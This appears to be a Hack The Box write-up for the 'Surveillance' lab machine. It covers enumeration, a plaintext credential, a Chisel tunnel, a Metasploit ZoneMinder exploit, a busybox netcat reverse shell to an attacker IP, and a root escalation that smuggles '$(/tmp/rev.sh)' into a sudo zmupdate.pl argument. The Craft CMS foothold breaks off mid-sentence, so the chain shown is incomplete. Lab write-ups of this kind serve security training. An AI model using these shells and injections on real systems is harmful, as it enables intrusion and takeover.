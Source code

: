 ```yaml
---
description: >-
  H3xano's write-up on the HTB machine : [Medium] Surveillance
title: Hack the Box - Surveillance Writeup
date: 2023-12-13 00:00:00 -0000
categories: [Hack the Box, Writeup]
tags: [htb,hacking,hack the box,writeup]     # TAG names should always be lowercase
---
```


## HTB - Surveillance

![Descriptive information card about Surveillance](/assets/img/surveillance-infocard.png)

## Overview

The target machine, named "Surveillance", is a medium difficulty Linux machine. It involves multiple steps for compromise. It begins with establishing a foothold as the www-data user, followed by privilege escalation through the Matthew user. The final escalation results in root access via the Zoneminder user.

### Target Information:

- **IP Address:** `10.10.11.245`
- **Users:** www-data, Matthew, zoneminder

## Enumeration:

### Initial enumeration:

   ```bash
   nmap 10.10.11.245 -sC -sV -O
   Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 22:31 EST
   Nmap scan report for surveillance.htb (10.10.11.245)
   Host is up (0.084s latency).
   Not shown: 998 closed tcp ports (reset)
   PORT     STATE SERVICE   VERSION
   22/tcp   open  ssh       OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
   | ssh-hostkey:
   |   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
   |_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
   80/tcp   open  http      nginx 1.18.0 (Ubuntu)
   |_http-server-header: nginx/1.18.0 (Ubuntu)
   |_http-title:  Surveillance 
   No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
   TCP/IP fingerprint:
   OS:SCAN(V=7.93%E=4%D=12/9%OT=22%CT=1%CU=40760%PV=Y%DS=2%DC=I%G=Y%TM=6575329
   OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)SEQ(SP=1
   OS:03%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O
   OS:3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE88%W2=
   OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSN
   OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
   OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
   OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
   OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
   OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

   Network Distance: 2 hops
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

   OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 379.18 seconds
   ```
### Web Enumeration:

   Before initiating web enumeration tools, add the target domain to the /etc/hosts file to map the IP address to the domain name:
   ```bash
   echo "10.10.11.245  surveillance.htb" | sudo tee -a /etc/hosts
   ```
   This step ensures that tools recognize the target by its domain name.

   In an attempt to enumerate hidden subdomains, directories or files I have used both gobuster and wfuzz. the results did not reveal anything noteworthy.
   In addition to utilizing the aforementioned tools , I employed WhatWeb to gather detailed information about the web application hosted at surveillance.htb. The results provide insights into the technologies, frameworks, and configurations employed on the web server.

   ```bash
   $ whatweb surveillance.htb

   http://surveillance.htb [200 OK]
   Bootstrap, Country[RESERVED][ZZ], Email[demo@surveillance.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.245], JQuery[3.4.1], Script[text/javascript], Title[Surveillance], X-Powered-By[Craft CMS], X-UA-Compatible[IE=edge], nginx[1.18.0]
   ```

   These details provide a comprehensive overview of the web application's technology stack, including server information, JavaScript libraries, and the use of the Craft CMS. That made me wanna look into Craft CMS to uncover potential vulnerabilities or misconfigurations that may lead to further exploitation. After taking a look at the website you can figure out the version of Craft CMS used, which is 4.4.14.

   A quick google search 


## Foothold:

### www-data to Matthew:

1. **Connect as www-data:**
   ```bash
   ssh www-data@<machine ip>
   ```
   Upon successful connection, retrieve the credentials for the Matthew user: `matthew:starcraft122490`.

### Matthew to Zoneminder:

1. **Port Forwarding with Chisel:**
   - Utilize Chisel for secure and efficient port forwarding.
     ```bash
     # Run Chisel server at attacker's machine
     ./chisel server --port 1337 --reverse --socks5
     ```

     ```bash
     # Transfer Chisel to victim's PC
     python -m http.server 8888
     wget <your_ip>:8888/chisel
     chmod +x chisel
     ./chisel client <your_ip>:1337 R:<victim_port>:127.0.0.1:8080 &
     ```

2. **Access Zoneminder CMS:**
   - The forwarded port allows access to the Zoneminder CMS from the attacker's machine. Open the browser and navigate to `http://127.0.0.1:<victim_port>`.

3. **Exploitation with Metasploit:**
   - Utilize Metasploit to exploit a vulnerability in Zoneminder Snapshots.
     ```bash
     msfconsole
     ```

     ```bash
     use exploit/unix/webapp/zoneminder_snapshots
     ```

     ```bash
     set RHOSTS <victim_ip>
     set RPORT <victim_port>
     set LHOST <your_ip>
     set TARGETURI /
     ```

     ```bash
     exploit
     ```

     ```bash
     shell
     ```

   This sequence results in the establishment of a Meterpreter session, providing a shell on the victim machine.

### Retrieve User Flag:

4. **Locate User Flag:**
   - Once in the Meterpreter session, navigate to the user's home directory and retrieve the user flag.
     ```bash
     cat /home/Matthew/user.txt
     ```

## Privilege Escalation:

### Zoneminder to Root:

1. **Prepare Reverse Shell:**
   - Create a reverse shell script (`rev.sh`) and place it in `/tmp` on the victim machine.
     ```bash
     #!/bin/bash
     busybox nc 10.10.xx.xx 443 -e sh
     ```

2. **Start a Listener:**
   - Initiate a listener on the attacker's machine to capture the reverse shell connection at port 443.

3. **Execute Privilege Escalation Command:**
   - Run the following command as the zoneminder user to leverage the `zmupdate.pl` script for privilege escalation.
     ```bash
     sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/rev.sh)' --pass=ZoneMinderPassword2023
     ```

4. **Retrieve Root Flag:**
   - Upon execution, the reverse shell script triggers a connection to the attacker's machine. Navigate to the root directory and retrieve the root flag.
     ```bash
     cat /root/root.txt
     ```

## Conclusion:

This comprehensive approach ensures a systematic compromise of the target machine, covering initial access, privilege escalation, and retrieval of both user and root flags. It is crucial to replace placeholder values such as `<machine ip>`, `<your_ip>`, and `10.10.xx.xx` with actual values during the exploitation process. Happy hacking!